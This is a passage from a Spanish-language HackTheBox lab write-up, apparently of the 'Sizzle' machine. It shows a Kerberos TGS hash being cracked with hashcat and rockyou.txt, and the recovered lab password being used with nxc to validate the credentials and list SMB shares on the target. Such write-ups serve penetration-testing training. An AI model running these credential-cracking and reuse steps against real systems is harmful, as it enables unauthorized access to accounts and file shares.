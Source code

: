 Al obtener el TGS; pocederemos a crackearlo con **hashcat** y verificamos que hemos logrado obtener la contraseña en texto plano del usuario _**mrlky@htb.local**_.

```bash
hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../../../.gitbook/assets/3416_vmware_QcbuBiYSva.png" alt="" width="563"><figcaption></figcaption></figure>

Validaremos que las credenciales de este usuario son válidas y de los recursos que tiene acceso dicho usuario.

```bash
nxc smb 10.10.10.103 -u 'mrlky' -p 'Football#7'

nxc smb 10.10.10.103 -u 'mrlky' -p 'Football#7' --shares
```

<figure><img src="../../../../../.gitbook/assets/3417_vmware_8CHZfJBUBt.png" alt=""><figcaption></figcaption></figure>

